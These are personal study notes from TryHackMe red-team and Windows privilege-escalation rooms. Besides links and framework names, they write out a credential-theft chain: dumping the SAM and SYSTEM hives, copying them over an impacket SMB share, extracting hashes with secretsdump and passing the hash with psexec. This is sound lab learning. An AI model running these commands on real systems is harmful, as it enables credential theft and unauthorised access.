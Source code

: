 # XXX

**https://tryhackme.com/room/redteamfundamentals** (done)

* simulate enough [TTPs](https://csrc.nist.gov/glossary/term/Tactics_Techniques_and_Procedures) for the blue team to learn to react
* [redteam.guide](https://redteam.guide/)
* Varonis Cyber Kill Chain 
* Active Directory Attack Cycle 
* MITRE ATT&CK Framework
* Windows CVE: PrintNightmare

**https://tryhackme.com/room/redteamengagements**

* concrete objectives (identify system misconfigurations) and perimeter/scope (ex: no downtime)

N

* PSexec (allow administrators to run commands on remote Windows systems) 

**https://tryhackme.com/room/windowsprivesc20**

* `backup the SAM and SYSTEM hashes`
  * `reg save hklm\system C:\XXX\system.hive`
  * `reg save hklm\sam C:\XXX\sam.hive`
* `python3 -m pip install impacket` (not working)
* `sudo git clone https://github.com/fortra/impacket /opt/impacket`
* `python3 -m pip install -r requirements.txt`
* pipx
* `python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 name /tmp/folderr`
* `net view \\IP`: view shares
* `copy file \\IP\share`
* https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
* [impacket](https://github.com/fortra/impacket/tree/master/examples)
* `pip install -r requirements.txt`/`pip install .`
* `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`
  * Give hashes
  * Pass the hash: `python3.9 /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP`

Sofware

* `wmic product get name,version,vendor` (list installed sofware, but may miss some of them)
* https://github.com/itm4n/PrivescCheck
* https://github.com/bitsadmin/wesng (run on host, not target, wes.py --update, save and pass to it systeminfo output, wes.py output.txt)
* https://jlajara.gitlab.io/Potatoes_Windows_Privesc
* https://github.com/antonioCoco/RogueWinRM